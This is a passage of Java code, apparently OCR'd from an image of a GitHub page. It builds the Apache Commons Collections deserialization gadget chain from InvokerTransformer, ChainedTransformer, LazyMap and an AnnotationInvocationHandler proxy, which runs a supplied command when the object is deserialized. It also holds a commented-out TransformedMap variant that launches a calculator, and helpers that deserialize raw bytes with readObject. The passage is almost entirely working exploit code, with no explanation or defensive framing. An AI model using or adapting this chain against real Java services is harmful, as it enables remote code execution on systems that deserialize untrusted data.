 ```
                            new Class[]{String.class},
                            command
                    )
            };
    
            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
    
            Map map = new HashMap<>();
            Map lazyMap = LazyMap.decorate(map, chainedTransformer);
    
            String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
            final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
            constructor.setAccessible(true);
            InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
            Proxy evilProxy = (Proxy) Proxy.newProxyInstance(Deserialize.class.getClassLoader(), new Class[]{Map.class}, secondInvocationHandler);
    
            InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);
    
            return invocationHandlerToSerialize;
    
            /*Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {
                            String.class, Class[].class }, new Object[] {
                            "getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke", new Class[] {
                            Object.class, Object[].class }, new Object[] {
                            null, new Object[0] }),
                    new InvokerTransformer("exec", new Class[] {
                            String.class }, new Object[] {"open -a calculator"})};
    
            Transformer chain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap<String, Object>();
            innerMap.put("key", "value");
            Map<String, Object> outerMap = TransformedMap.decorate(innerMap, null, chain);
            Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);
            Object instance = ctor.newInstance(Target.class, outerMap);
            return instance;*/
        }
    
        public static void deserializeAndDoNothing(byte[] byteArray) throws IOException, ClassNotFoundException {
            ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(byteArray));
            ois.readObject();
        }
    
        public static byte[] serializeToByteArray(Object object) throws IOException {
            ByteArrayOutputStream serializedObjectOutputContainer = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(serializedObjectOutputContainer);
            objectOutputStream.writeObject(object);
            return serializedObjectOutputContainer.toByteArray();
        }
    
        public static Object deserializeFromByteArray(byte[] serializedObject) throws IOException, ClassNotFoundException {
```
